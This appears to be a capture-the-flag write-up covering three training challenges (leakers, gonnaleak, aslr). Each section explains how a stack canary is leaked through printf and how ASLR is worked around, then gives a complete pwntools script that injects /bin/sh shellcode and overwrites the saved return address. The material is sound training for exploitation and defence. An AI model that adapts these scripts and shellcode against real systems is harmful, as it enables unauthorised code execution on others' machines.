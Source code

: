 # leakers ![c](https://img.shields.io/badge/solved-success)
### Analysis
This challenge is again on a *buffer overflow* vulnerability, as we can immediately see from the disassembled source code on ```Ghidra```. However, this time we can see through ```checksec ./leakers``` that a **canary** mitigation is enabled.

Btw we can easily bypass it by exploiting the fact that there is a printf in the code that, as we know, prints strings until it finds a null byte 0x00. Moreover, a canary typically is right before the EIP and has a leading 0 in order to not be leaked easily (is little endian, so the zero is "at the end").

### Exploit
With this knowledge we can send some A's and analyze the memory after this point with ```x /20gx *buffer_address*```, and notice the presence of the canary after 104 bytes. After leaking and receiving it we can fully exploit this.

First of all we send our shellcode in the first iteration of the loop to store it, then we get the canary by sending the 104 'A's and after that we overwrite the Saved IP in order to jump to our code (in this case we know the address of the buffer from a quick Ghidra exploration).

This exploit follows the standard procedure to exploit the canary mitigation, where we leak it and then we craft the payload as SHELLCODE + CANARY + XXXX + SHELLCODE_ADDRESS 

```python
from pwn import *
import time

context.terminal = ['tmux', 'splitw', '-h']
r = remote("training.jinblack.it", 2010)

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8

r.send(shellcode)
time.sleep(0.1)

r.send("A"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)

wheretojump = 0x00404080

payload = b"A" * 104 + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```

**flag{canary_may_not_die!}**


# gonnaleak ![c](https://img.shields.io/badge/solved-success)
### Analysis
This is pretty much the same of the previous one, in fact also the script is very similar. 

The main difference is that we don't know the buffer address, and we can't see it from Ghidra. That's the reason why we must leak also this one. So the plan now is:
- leak the canary by sending 105 'A's
- leak the buffer address by sending 136 'A's
- craft a shellcode with NOPs before it, to be stored in the overflowed buffer
- send the final payload, with NOP + SHELLCODE + CANARY + XXXX + SHELLCODE_ADDRESS (actually jump to NOP sled, and then we will reach the shellcode)

### Exploit
```python
from pwn import *
import time

#context.terminal = ['tmux', 'splitw', '-h']
context.terminal = ['terminator', '-e']

r = remote("training.jinblack.it", 2011)

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
shellcode = shellcode.rjust(104, b"\x90")

r.send("A"*(105))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("0x%x" % canary)

r.send("A"*(136))
time.sleep(0.1)
r.recvuntil("> ")
r.recv(136)

wheretojump = u64(r.recv(6) + b"\x00"*2)
print("0x%x" % wheretojump)
wheretojump = wheretojump - 0x150
print("0x%x" % wheretojump)

payload = shellcode + p64(canary) + b"B"*8 + p64(wheretojump)

r.send(payload)
time.sleep(0.1)

r.interactive()
```

Flag: **flag{you_can_also_leak_the_stack!}**

# aslr ![c](https://img.shields.io/badge/solved-success)
### Analysis
Same procedure to get the canary, we just send 105 'B's to get the leak.
Then because ASLR is enabled we have to calculate the offset (that is fixed) between an address in the stack that we can constantly leak, and the base address of the bss that we can easily see from gdb with the *info files* command. 

After trying to compute this offset for some cases, we can see that is always the same, so now we can compute everything on the bss starting from there. That is, **we know that the buffer address will always change so we can't hardcode it or compute it like in gonnaleak (with a simple subtraction), but knowing an offset is done (because ASLR works with PAGES, and within a page we don't have additional randomization**.
### Exploit
```python
from pwn import *
import time
'''
context.terminal = ['tmux', 'splitw', '-h']
r = process("./aslr")
gdb.attach(r, """
	c
	""")
'''
r = remote("training.jinblack.it", 2012)

shellcode = b"\xEB\x14\x5F\x48\x89\xFE\x48\x83\xC6\x08\x48\x89\xF2\x48\xC7\xC0\x3B\x00\x00\x00\x0F\x05\xE8\xE7\xFF\xFF\xFF"
shellcode = shellcode + b"/bin/sh\x00" + b"\x00"*8
r.send(shellcode)
time.sleep(0.1)

r.send("B"*105)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(105)
canary = u64(b"\x00" + r.recv(7))
print("canary 0x%x" % canary)

offset = 0x2005c0
r.send("A"*112)
time.sleep(0.1)
r.recvuntil("> ")
r.recv(112)
add = u64(r.recv(8) + b"\x00" + b"\x00") 
add = add + offset
payload = b"a"*104 + p64(canary) + b"b"*8 + p64(add)
r.send(payload)

r.interactive()
```
**flag{you_can_also_leak_the_binary_And_compute_bss!}**
